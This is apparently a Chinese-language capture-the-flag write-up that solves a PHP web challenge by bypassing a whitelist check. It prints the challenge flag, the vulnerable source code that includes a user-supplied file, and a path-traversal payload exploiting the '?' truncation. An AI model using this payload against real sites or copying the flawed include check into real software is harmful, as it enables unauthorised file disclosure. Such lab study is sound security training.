 ```yaml
---
Author: SuperJason
Date: 2020-12-30
---
```


## flag
`flag{2d746d85-0a38-4c88-b641-435fddb48cf2}`

## 思路
1. 访问环境。f12注释中提示`source.php`，代码审计，设置了白名单source.php和hint.php，只有checkFile函数为true时，才会包含文件。并且checkFile函数最后一个`return true`判断的是截取后的字符串，存在利用点。  
2. hint.php内容`flag not here, and flag in ffffllllaaaagggg`，提示flag在`ffffllllaaaagggg`处
3. 构造`source.php?file=source.php?../../../../../../../ffffllllaaaagggg`获得flag，第二个source.php后面加?是为了绕过白名单，`source.php?../../../../../../../ffffllllaaaagggg`被include。
4. 源代码
```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```